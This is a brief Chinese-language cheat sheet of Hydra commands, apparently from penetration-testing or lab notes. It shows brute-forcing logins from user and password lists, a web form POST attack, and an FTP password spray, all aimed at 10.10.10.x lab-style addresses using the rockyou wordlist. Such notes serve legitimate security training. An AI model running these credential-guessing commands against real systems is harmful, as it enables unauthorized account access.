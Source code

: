 # Hydra 实战语句

- 破解列表

```
    sudo hydra -L users.txt -P wordlist.txt
```

- 破解单个

```
    sudo hydra -l "aaa" -P wordlist.txt
```

- WebSite POST 破解

```
sudo hydra -l "key" -P /usr/share/wordlists/rockyou.txt 10.10.10.7 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

-  Ftp 密码喷射

```
sudo hydra -L hash/users.lst -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.35 -f
```